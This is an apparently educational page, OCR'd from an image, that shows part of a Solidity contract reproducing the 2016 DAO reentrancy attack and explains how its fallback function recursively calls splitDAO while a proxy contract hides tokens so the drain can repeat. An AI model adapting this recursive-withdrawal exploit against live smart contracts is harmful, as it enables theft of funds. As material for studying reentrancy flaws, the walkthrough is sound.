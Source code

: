 ```solidity
    calls_to_make = 1;
  }

  function makeSplitProposal() {
    // 0x93a80 == 604800 == 1 week in seconds
    bytes memory transactionData;
    proposalID = DAO.newProposal(this, 0x0, "Lonely, so Lonely", transactionData, 0x93a80, true);
  }

  function voteYesOnProposal() {
    DAO.vote(proposalID, true);
  }

  function fillProxy() {
    uint balance = DAO.balanceOf(this);
    DAO.transfer(address(proxy), balance);
  }

  function splitDAO() {
    calls += 1;
    DAO.splitDAO(proposalID, this);
  }

  function runHack(uint _calls_to_make) {
    calls = 0;
    calls_to_make = _calls_to_make;
    proxy.empty();
    splitDAO();
  }

  function() {
    if (calls < calls_to_make) {
      splitDAO();
    } else {
      fillProxy();
    }
  }
}
```

* First, this contract file contains two contracts: A Proxy contract, and a Hack contract. The Hack contract performs the splits, and is the main entity and address that exploits the DAO. The Proxy contract is a place for the Hack contract to stash its DAO tokens before they get flushed at the end of one run through the loop. Because they're stashed in a different address, the final iteration will have no DAO tokens to zero out, and thus we can continue the hack indefinitely.
* `makeSplitProposal()`, `voteYesOnProposal()`, and `splitDAO()` (when called on its own), are all functions required to set up the hack. Since the Hack contract is the main entity that holds the DAO tokens, it must perform this setup in order to execute the hack later.
* `fillProxy()` takes the Hack contract's DAO tokens and transfers them to the address of the Proxy contract, a vital part of making the hack indefinite. As well, `proxy.empty()` returns the tokens back to the Hack contract.
* `runHack()` gets the hack started, and the fallback function `function() {...}` runs the hack until we've reached the maximum amount of calls we can make within our given gas limit.
